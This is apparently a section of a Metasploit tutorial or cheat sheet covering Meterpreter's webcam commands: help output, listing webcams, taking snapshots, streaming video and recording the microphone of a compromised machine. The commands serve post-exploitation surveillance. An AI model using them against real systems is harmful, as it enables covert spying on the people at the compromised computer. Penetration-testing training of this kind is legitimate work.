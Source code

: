 # Metasploit

```
meterpreter > help
..[truncated]..

Stdapi: Webcam Commands
=======================

    Command        Description
    -------        -----------
    record_mic     Record audio from the default microphone for X seconds
    webcam_chat    Start a video chat
    webcam_list    List webcams
    webcam_snap    Take a snapshot from the specified webcam
    webcam_stream  Play a video stream from the specified webcam
```

## 6.1 - Webcam

### 6.1.1 - Help Menu

```
meterpreter > webcam_snap -h
```

```
meterpreter > webcam_stream -h
```

- List webcams

```
meterpreter > webcam_list
```

- Taking snapshots from a webcam

```
meterpreter > webcam_snap -i <device_ID> -p /path/to/file.png
```